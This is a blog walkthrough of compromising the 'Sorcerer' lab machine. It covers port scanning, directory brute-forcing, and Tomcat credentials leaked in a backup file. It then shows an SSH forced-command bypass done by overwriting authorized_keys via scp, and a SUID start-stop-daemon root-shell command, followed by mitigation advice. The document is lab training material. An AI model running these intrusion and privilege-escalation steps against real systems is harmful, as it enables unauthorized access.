









+++ 
draft = false
date = 2025-12-11T13:07:16+01:00
title = "Sorcerer Offsec Walkthrough"
description = ""
slug = ""
authors = [""]
tags = ["Feroxbuster", "NFS", "SSH", "Authorized_keys", "SUID privilege escalation", "GTFObins", "start-stop-deamon"]
categories = []
externalLink = ""
series = ["Offsec"]
+++

## Sorcerer OffSec Walkthrough


### 1. Introduction

This walkthrough documents the compromise of the Sorcerer machine from CyberSecLabs (CFT). 

We compromised the Sorcerer machine through classic multi-surface enumeration: multiple web servers, exposed ZIP archives leaking Tomcat credentials and SSH keys, restricted SSH bypass through editing authorized_keys, and final privilege escalation via a misconfigured SUID start-stop-daemon binary (GTFOBins). 

The result is full root compromise, highlighting weak service isolation, exposed sensitive files, and dangerous privilege configurations.

### 2. Reconnaissance

First, a ping is made to verify connection with the machine:


The TTL value is unusual. Linux commonly uses TTL ≈ 64 and Windows ≈ 128, so a different value can indicate filtering, virtualization or a custom network stack.

A full SYN scan is performed to enumerate open ports:

```sh
sudo nmap -sS -T5 -vvv -p- $tgt -Pn -oN nmap_inicial
```

Where:

- -sS: SYN scan  
- -T5: Aggressive timing  
- -vvv: High verbosity  
- -p-: All ports scanned  
- -Pn: Skip host discovery  
- -oN: Save output in normal format  

Results:


Then, a deeper enumeration of detected open ports:
```sh
sudo nmap -sCV -vvv -p22,80,111,2049,7742,8080,34625,43449,45551,49951 $tgt -oN nmap_exhaustive
```
Where:

- -sCV: Script + version detection  
- -vvv: High verbosity  
- -p: Only open ports  
- -oN: Normal output  

Results:


Next, directory discovery on port 80:
```sh
feroxbuster -u http://$tgt:80 -x html,htm,php,txt -w /home/kali/SecLists/Discovery/Web-Content/common.txt -n
```


And directory discovery on port 8080:
```sh
feroxbuster -u http://$tgt:8080 -x html,htm,php,txt -w /home/kali/SecLists/Discovery/Web-Content/common.txt -n
```


Attempt to mount NFS:
```sh
sudo mount -t nfs $tgt: /mnt/nfs
```



Tomcat landing page:


Directory discovery on port 7742:
```sh
feroxbuster -u http://$tgt:7742 -x html,htm,php,txt -w /home/kali/SecLists/Discovery/Web-Content/common.txt -n
```


Landing page on 7742:



Eventually, the /zipfiles directory is found:


Potential usernames/passwords for spraying:

- francis  
- max  
- miriam  
- sofia  

ZIP contents:



### 3. Initial Exploitation

One extracted file stands out: tomcat-users.xml.bak
```html
  <role rolename="manager-gui"/>
  <user username="tomcat" password="VTUD2XxJjf5LPmu6" roles="manager-gui"/>
</tomcat-users>
```

These credentials grant access to the Tomcat Manager GUI.

The SSH key pairs found in another ZIP file:



The scp_wrapper script shows SSH is restricted to scp-only commands:


authorized_keys reveals enforced restrictions:



The key file is modified locally to remove all forced commands:


The modified authorized_keys is uploaded:
```sh
scp -i id_rsa -O authorized_keys max@$tgt:/home/max/.ssh/authorized_keys
```


SSH now works normally — access as max is obtained.


### 4. Privilege Escalation

Running linpeas:



A SUID binary is discovered: /usr/sbin/start-stop-daemon  
GTFOBins confirms it can be abused:


Exploit command:
```sh
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```

Root shell obtained:


Boooooom the machine is PWNED :)

### 5. Attack Mitigation

1. Web Application Hardening
- Remove backup files (e.g., *.bak) from web directories.  
- Restrict Tomcat Manager access to internal/admin networks.  
- Enforce strong passwords and remove unused roles.

2. SSH Security
- Prevent exposure of SSH private keys through NFS.  
- Enforce proper permissions in ~/.ssh directories.  
- Audit authorized_keys frequently.

3. Service and Filesystem Hardening
- Remove unnecessary SUID binaries like start-stop-daemon.  
- Restrict or disable NFS services.  
- Use regular auditing tools (Lynis, OpenSCAP).